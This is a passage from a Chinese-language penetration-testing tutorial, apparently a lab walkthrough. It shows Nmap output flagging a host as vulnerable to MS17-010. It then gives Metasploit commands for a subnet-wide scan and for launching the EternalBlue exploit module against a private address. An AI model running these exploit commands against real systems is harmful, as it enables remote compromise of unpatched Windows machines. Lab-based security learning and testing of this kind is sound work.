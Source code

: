 ```
27.| smb-vuln-ms17-010: 
28.|   VULNERABLE:
29.|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
30.|     State: VULNERABLE
31.|     IDs:  CVE:CVE-2017-0143
32.|     Risk factor: HIGH
33.|       A critical remote code execution vulnerability exists in Microsoft SMBv1
34.|        servers (ms17-010).
35.|       
36.|     Disclosure date: 2017-03-14
37.|     References:
38.|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
39.|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
40.|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

通过Nmap 的445端口定向漏洞扫描发现 192.168.1.112 存在MS17-010漏洞。

**4.2 MSF Auxiliary 辅助扫描**

其实如果不直接使用namp进行漏洞定向扫描，我们也可以直接使用MSF框架的辅助模块“”auxiliary”中的扫描模块进行扫描。了解MSF的同学肯定都知道，MSF的扫描模块基本也就是调用nmap扫描来实现的。这里就简单记录下这个“auxiliary/scanner/”扫描模块的下漏洞扫描方法。



```
msfconsole # 进入MSF框架 
version # 确认下MSF的版本 
search ms17_010 # 查找漏洞模块的具体路径 
use auxiliary/scanner/smb/smb_ms17_010 # 调用漏洞扫描模块 
show option # 查看模块配置选项 
set RHOST 192.168.1.1-254 # 配置扫描目标 
set THREADS 30 #配置扫描线程 
run #运行脚本
```

这个使用下来，我们发现其实还没有namp 一条命令就搞定了，来的方便。

<br>

**五、MSF 漏洞利用过程**

通过以上所有环境的准备和漏洞扫描主机的发现，接下来使用MSF框架进行MS17-10漏洞的攻击，也就是“几秒”中的事情了，具体使用方法和过程记录如下。

**5.1 ms17-010 漏洞利用之MSF使用方法**



```
msfconsole # 进入MSF 框架 
version # 确保MSF框架版本在 4.14.17以上； 
search ms17_010 # 漏洞模块路径查询 
set exploit/windows/smb/ms17_010_eternalblue # 调用攻击模块
set RHOST 192.168.1.112 # 设定攻击目标 
exploit # 发起攻击
```
